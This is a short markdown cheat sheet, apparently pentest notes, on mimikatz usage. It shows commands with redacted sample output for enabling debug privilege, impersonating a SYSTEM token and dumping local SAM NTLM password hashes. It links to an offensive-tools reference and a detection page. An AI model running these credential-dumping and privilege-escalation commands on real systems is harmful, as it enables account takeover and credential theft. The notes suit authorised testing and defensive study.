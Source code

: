 # mimikatz

### Resources

1. The Hacker tools

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### Basic commands

1. View privilege configurations (?)

* Required to perform actions such as `lsadump::sam` later on

```
mimikatz # privilege::debug
Privilege '20' OK
```

2. To impersonate a token

* particularly, a token from `SYSTEM`

{% embed url="https://docs.velociraptor.app/artifact_references/pages/windows.detection.impersonation/" %}

```
mimikatza # token::elevate

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

660     xxxx         NT AUTHORITY\SYSTEM     xxxx       (04g,21p)       Primary
 -> Impersonated !
 * Process Token : xxxx     XXXX     xxxx   (12g,24p)  Primary
 * Thread Token  : {0;000003e7} 1 D 1309519     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

```

3. Dump the local Security Account Manager (SAM) NT hashes

```
mimikatz # lsadump::sam
Domain : xxxx
SysKey : xxxx
Local SID : xxxx

SAMKey : xxxx

RID  : xxxx (500)
User : Administrator
  Hash NTLM: xxxx
  
...
```

